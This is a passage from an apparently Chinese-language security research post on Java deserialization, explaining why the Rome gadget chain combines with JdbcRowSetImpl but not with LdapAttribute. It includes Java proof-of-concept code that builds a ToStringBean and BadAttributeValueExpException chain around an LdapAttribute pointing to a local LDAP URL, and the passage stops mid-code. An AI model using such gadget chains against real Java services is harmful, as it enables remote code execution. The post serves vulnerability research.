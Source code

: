 总之就是在这个机缘巧合之下，getter存放顺序很合适，使得**在调用到`getDatabaseMetaData()`之前都不会报错**

从而**Rome链可以结合JdbcRowSetImpl使用！**

#### LdapAttribute

Rome链不可以结合LdapAttribute使用，同样是很反直觉的一个现象，让我们看看LdapAttribute中的getter  
[![](assets/1701606907-026acc9ce44531c9c0401a92bcff2c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210246-77dc525a-6ced-1.png)

方法很少，并且都不会强制报错，我们的目标是调用到`getAttributeDefinition`

按理说没啥问题，在`getAttributeDefinition` 处下断点，调试一下

```plain
public static void main(String[] args) throws Exception{
        Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:11123");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

        ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
```